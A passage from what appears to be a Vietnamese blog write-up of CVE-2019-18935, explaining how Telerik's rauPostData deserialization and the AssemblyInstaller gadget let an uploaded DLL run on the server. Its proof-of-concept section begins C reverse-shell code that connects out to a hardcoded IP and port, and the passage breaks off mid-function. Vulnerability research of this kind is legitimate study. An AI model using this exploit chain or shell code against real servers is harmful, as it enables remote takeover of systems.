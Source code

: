 ![image]({{ "/assets/img/2025-09-12-CVE-2019-18935/image17.png" | relative_url }})

Sau khi phân tách xong, tại chính xác dòng 385, chương trình sẽ gọi tới hàm `Deserialize()` nằm tại class SerializationService, nội dung của hàm được thể hiện ngay bên dưới đây, nhìn chung nó sẽ trực tiếp sử dụng type để deser dữ liệu từ người dùng:

![image]({{ "/assets/img/2025-09-12-CVE-2019-18935/image18.png" | relative_url }})

=> Rõ ràng rằng rauPostData hoàn toàn là biến người dùng kiểm soát. Điều này dẫn tới attacker có thể chỉ định bất kỳ type nào có trong scope của ứng dụng.

=> Trong khi deserialize, JavaScriptSerializer sẽ gọi các setter methods hoặc field assignment tương ứng, và nếu type được chọn là một gadget có khả năng thực thi code gián tiếp, thì toàn bộ flow này trở thành một arbitrary deserialization chain. ==Đây chính là chỗ mà bug .NET deserialization xuất hiện==

Dưa vào kiến thức mình đã nhắc đến tại mục II.2, tại JSON ATTACK Friday 13th tác giả đã từng nhắc đến việc nếu người dùng kiểm soát những trường data quan trọng trên kết hợp với deserialize, kẻ tấn công sẽ tiến được tới RCE.

Gadget được lợi dụng ở đây là `System.Configuration.Install.AssemblyInstaller`. Bình thường class này được thiết kế để load một assembly rồi chạy các installer bên trong nó (ví dụ để cài đặt hoặc commit một assembly hợp lệ). Nhưng nếu attacker chỉ định type này trong rauPostData, kèm theo một Path trỏ tới DLL đã upload lên server từ trước (qua lỗ hổng file upload), thì khi deserialize, ứng dụng sẽ tự động load DLL đó vào AppDomain hiện tại. Kết quả là entry point DLLMain() trong DLL độc hại sẽ được gọi

![image]({{ "/assets/img/2025-09-12-CVE-2019-18935/image19.png" | relative_url }})

> Note: theo mình, lý do lớn nhất để bug này được gán tag .NET deser là sự xuất hiện của AssemblyInstaller Class khi sử dụng chain RCE

## IV. POC - Proof of Concepts

Nội dung phần unmanaged code được gen bằng C, kết hợp với 1 file empty C# để tạo ra mixed mode assembly.

```c
#include <winsock2.h>
#include <stdio.h>
#include <windows.h>

#pragma comment(lib, "ws2_32")

#define HOST "161.248.30.56"
#define PORT 1337

WSADATA wsaData;
SOCKET Winsock;
SOCKET Sock;
struct sockaddr_in hax;
char aip_addr[16];
STARTUPINFO ini_processo;
PROCESS_INFORMATION processo_info;

void ReverseShell()
{
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    Winsock=WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    struct hostent *host = gethostbyname(HOST);
    strcpy(aip_addr, inet_ntoa(*((struct in_addr *)host->h_addr)));

    hax.sin_family = AF_INET;
    hax.sin_port = htons(PORT);
    hax.sin_addr.s_addr = inet_addr(aip_addr);
```